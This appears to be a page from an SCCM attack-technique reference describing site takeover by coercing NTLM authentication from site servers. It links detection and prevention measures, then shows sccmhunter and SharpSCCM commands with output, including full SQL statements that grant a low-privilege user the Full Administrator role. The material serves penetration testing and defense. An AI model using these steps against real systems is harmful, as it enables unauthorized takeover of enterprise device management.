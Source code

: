 ## Defensive IDs
- [DETECT-1: Monitor site server domain computer accounts authenticating from another source](../../../defense-techniques/DETECT/DETECT-1/detect-1_description.md)
- [PREVENT-14: Require EPA on AD CS and site databases](../../../defense-techniques/PREVENT/PREVENT-14/prevent-14_description.md)
- [PREVENT-20: Block unnecessary connections to site systems](../../../defense-techniques/PREVENT/PREVENT-20/prevent-20_description.md)

## Subtechniques
- TAKEOVER-1.1: Coerce primary site server
- TAKEOVER-1.2: Coerce SMS Provider
- TAKEOVER-1.3: Coerce passive site server

## Examples
The steps to execute TAKEOVER-1.1 through TAKEOVER-1.3 are the same except that a different system is targeted for coercion of NTLM authentication.

1. (Linux) Use `sccmhunter` to get the hex-formatted SID of the Active Directory user you'd like to grant the Full Administrator role in SCCM, as well as the MSSQL statements required to grant the role to the user:

    ```
    $ python3 sccmhunter.py mssql -dc-ip 192.168.57.100 -d MAYYHEM.LOCAL -u 'lowpriv' -p 'P@ssw0rd' -debug -tu lowpriv -sc ps1 
        
    [13:13:33] DEBUG    [+] Bind successful ldap://192.168.57.100:389 - cleartext                                        
    [13:13:33] INFO     [*] Resolving lowpriv SID...                                                                     
    [13:13:33] DEBUG    [+] Found lowpriv SID: S-1-5-21-622943703-4251214699-2177406285-1112                             
    [13:13:33] INFO     [*] Converted lowpriv SID to 0x010500000000000515000000D75D21256B6364FD4D95C88158040000          
    [13:13:33] DEBUG    [+] Found domain netbiosname: MAYYHEM                                                            
    [13:13:33] INFO     [*] Use the following to add lowpriv as a Site Server Admin.                                     

    USE CM_ps1; INSERT INTO RBAC_Admins (AdminSID,LogonName,IsGroup,IsDeleted,CreatedBy,CreatedDate,ModifiedBy,ModifiedDate,SourceSite) VALUES (0x010500000000000515000000D75D21256B6364FD4D95C88158040000,'MAYYHEM\lowpriv',0,0,'','','','','ps1');INSERT INTO RBAC_ExtendedPermissions (AdminID,RoleID,ScopeID,ScopeTypeID) VALUES ((SELECT AdminID FROM RBAC_Admins WHERE LogonName = 'MAYYHEM\lowpriv'),'SMS0001R','SMS00ALL','29');INSERT INTO RBAC_ExtendedPermissions (AdminID,RoleID,ScopeID,ScopeTypeID) VALUES ((SELECT AdminID FROM RBAC_Admins WHERE LogonName = 'MAYYHEM\lowpriv'),'SMS0001R','SMS00001','1'); INSERT INTO RBAC_ExtendedPermissions (AdminID,RoleID,ScopeID,ScopeTypeID) VALUES ((SELECT AdminID FROM RBAC_Admins WHERE LogonName = 'MAYYHEM\lowpriv'),'SMS0001R','SMS00004','1');
    ```

    (Windows) Use `SharpSCCM`to get the hex-formatted SID of the Active Directory user you'd like to grant the Full Administrator role in SCCM, and assemble the query based on the output from the example `sccmhunter` command above, substituting the user SID, domain, and site code (`ps1` in this example) where appropriate.

    ```
    > .\SharpSCCM.exe local user-sid

    [+] Current user: MAYYHEM\lowpriv
    [+] Active Directory SID for current user: S-1-5-21-622943703-4251214699-2177406285-1112
    [+] Active Directory SID (hex): 0x010500000000000515000000D75D21256B6364FD4D95C88158040000
    [+] Completed execution in 00:00:00.1959610
    ```
